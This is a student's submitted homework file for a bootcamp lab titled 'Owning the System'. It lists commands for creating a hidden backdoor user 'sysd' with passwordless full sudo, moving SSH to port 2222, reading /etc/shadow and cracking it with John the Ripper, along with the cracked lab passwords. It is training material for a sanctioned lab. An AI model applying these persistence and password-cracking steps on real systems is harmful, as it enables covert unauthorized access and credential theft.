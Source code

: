 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - sudo adduser --no-create-home --uid 666 sysd

2. Give your secret user a password: 
    - homework6

3. Give your secret user a system UID < 1000:
    - See above adduser command

4. Give your secret user the same GID:
   - id sysd returns:
   - uid=666(sysd) gid=666(sysd) groups=666(sysd)
   - Success!

5. Give your secret user full `sudo` access without the need for a password:
   - sudo visudo
   - Then, added the following line:
   - sysd	ALL=(ALL:ALL) NOPASSWD: ALL

6. Test that `sudo` access works without your password:

    ```bash
    sudo -l
	sudo cat /etc/shadow
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    ...
	# The strategy used for options in the default sshd_config shipped with
	# OpenSSH is to specify options with their default value where
	# possible, but leave them commented.  Uncommented options override the
	# default value.

	#Port 22
	Port 2222
	#AddressFamily any
	#ListenAddress 0.0.0.0
	#ListenAddress ::
	...
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart sshd

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su
	- john /etc/shadow
	- Returned accounts / passwords:
	stallman / computer
	babbage / freedom
	mitnik / trustno1
	lovelace / dragon
	turing / lakers
	sysadmin / passw0rd
	student / Goodluck!
	root / stu

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

